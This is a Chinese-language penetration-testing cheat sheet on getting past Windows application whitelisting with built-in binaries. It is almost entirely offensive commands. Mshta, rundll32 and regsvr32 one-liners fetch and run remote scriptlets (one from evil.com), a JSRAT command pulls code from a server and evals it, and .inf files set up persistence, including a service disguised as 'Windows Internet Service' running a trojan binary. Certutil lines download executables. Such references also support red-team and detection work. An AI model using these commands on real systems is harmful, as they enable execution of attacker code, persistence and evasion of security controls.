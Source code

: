 windows script example in penetration
----

#### 1.	powershell ####

	powershell -executionpolicy bypass ./powershell_script.ps1

#### 2. VBS ####

默认可以直接在机器上运行，命令行下可以通过`cscript.exe`执行

	cscript.exe vbs_script.vbs
	vbs_script.vbs


#### 3. csc(.cs c#) ####

首先通过`csc.exe`进行编译c#为`exe`，然后通过`InstallUtil.exe`进行程序执行

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PEL.exe InstallUtilBypass.cs

	InstallUtil.exe /logfile= /LogToConsole=false /U PEL.exe

#### 4. Jscript(.js) ####

可以通过`wscript.exe`、`cscript.exe`以及直接运行，主要通过`ActiveXObject()`创建对应的对象`WScript.shell`、`Shell.Application`.

	cscript.exe/wscript.exe jscript.js
	jscript.js

JScript参考链接：http://www.yuanma.net/Manual/JavaScript/

https://evi1cg.me/archives/Run_JSRAT.html

#### 5. Mshta ####

HTA（HTML Application)，可以嵌入`JScript`和`VBScript`，后缀名为`.hta`时可以直接运行，使用命令行`mshta`时，后缀可以使用`htm`,`xml`. 执行时带上绝对路径方可运行，否则无效。

	mshta vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct"").Exec()"))

	mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct").Exec();close();

#### 6. Rundll32 ####

利用时需要注意`RunHTMLApplication`后面是有一个空格。

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%  #JSRAT

	rundll32 AllTheThings.dll,EntryPoint 

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct");o.Exec();window.close();	

通过`system`的一些`dll`可以扩展很多绕过方法：

	rundll32 url.dll, OpenURL file://c:\windows\system32\calc.exe

	rundll32 url.dll, OpenURLA file://c:\windows\system32\calc.exe

	rundll32 url.dll, FileProtocolHandler calc.exe
	
	rundll32 C:\Windows\system32\shell32.dll,OpenAs_RunDLL C:\ProgramData\x64.1

修改注册表项

reg.inf

    [Version]
    
    Signature="$WINDOWS NT$"
    
    [DefaultInstall]
    
    AddReg=My_AddReg_Name
    
    DelReg=My_DelReg_Name
    
    [My_DelReg_Name]
    
    HKLM,SOFTWARE\Microsoft\Windows\CurrentVersion\Run,KAVRun

    rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/reg.inf

添加服务

srv.inf

    [Version]
    Signature="$WINDOWS NT$"
    [DefaultInstall.Services]
    AddService=inetsvr,,My_AddService_Name
    [My_AddService_Name]
    DisplayName=Windows Internet Service
    Description=提供对 Internet 信息服务管理的支持。
    ServiceType=0x10
    StartType=2
    ErrorControl=0
    ServiceBinary=%11%\muma.exe

	rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/srv.inf

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

#### 7. Regsvcs/Regasm

白名单绕过方法，通过加载DLL(.Net/C#).	(尝试在即编写dll，一直失败）, `regsvcs`注册`dll`需要签名。

	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll


	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

https://gist.githubusercontent.com/jbarcia/a5ba8cf3badebf3c802f83832eda1059/raw/39aa6341cda40500a02cfc069b6d6ec45f1c5028/evil.cs(在编译这个脚本时，需要更改系统语言区域为英语/美国，非unicode，编译就不会报错了)

	rundll32 evil.dll,EntryPoint

http://www.codesec.net/view/443056.html

#### 8. Regsvr32

本地脚本加载运行

	regsvr32.exe /s /u /i:payload.sct scrobj.dll

远程脚本加载运行

	regsvr32.exe /s /u /i:http://evil.com/payload.sct scrobj.dll

	regsvr32.exe  payload.dll	# DLLregisterServer
	regsvr32.exe  /u payload.dll # DLLUnregisterServer

#### 9. odbcconf/Msbuild

	odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

	cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

windows 文件下载

	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 1.exe
	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete
